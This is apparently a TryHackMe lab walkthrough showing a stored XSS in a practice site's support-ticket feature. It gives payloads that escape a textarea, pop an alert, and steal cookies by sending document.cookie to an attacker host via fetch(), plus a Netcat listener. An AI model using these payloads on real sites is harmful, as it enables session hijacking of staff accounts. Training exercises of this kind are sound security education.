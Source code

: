 Click on the **Customers** tab on the top navigation bar and click the "**Signup here**" link to create an account. Once your account gets set up, click the **Support Tickets** tab, which is the feature we will investigate for weaknesses. 

Try creating a support ticket by clicking the green Create Ticket button, enter the subject and content of just the word test and then click the blue Create Ticket button. You'll now notice your new ticket in the list with an id number which you can click to take you to your newly created ticket. 

Like task three, we will investigate how the previously entered text gets reflected on the page. Upon viewing the page source, we can see the text gets placed inside a textarea tag.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/bd30b2541fb8186755110f5ec3e84330.png)

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/34e69ee3fce3021fee02a13a680d5d47.png)  

Let's now go back and create another ticket. Let's see if we can escape the textarea tag by entering the following payload into the ticket contents:

`</textarea>test`

Again, opening the ticket and viewing the page source, we've successfully escaped the textarea tag.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/e247f6dd0b2ebe0e4e512b16b41cec05.png)  

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/0ad04cf010b889a8adfdba9d24bcb826.png)  

Let's now expand on this payload to see if we can run JavaScript and confirm that the ticket creation feature is vulnerable to an XSS attack. Try another new ticket with the following payload:

 `</textarea><script>alert('THM');</script>`  

Now when you view the ticket, you should get an alert box with the string THM. We're going to now expand the payload even further and increase the vulnerabilities impact. Because this feature is creating a support ticket, we can be reasonably confident that a staff member will also view this ticket which we could get to execute JavaScript. 

Some helpful information to extract from another user would be their cookies, which we could use to elevate our privileges by hijacking their login session. To do this, our payload will need to extract the user's cookie and exfiltrate it to another webserver server of our choice. Firstly, we'll need to set up a listening server to receive the information.

While using the TryHackMe AttackBox, let's set up a listening server using Netcat:  

```shell
user@machine$ nc -nlvp 9001
```

Now that we've set up the method of receiving the exfiltrated information, let's build the payload.

`</textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>`

Let's breakdown the payload:

The `</textarea>` tag closes the textarea field. 

The `<script>`tag opens open an area for us to write JavaScript.

The `fetch()` command makes an HTTP request.
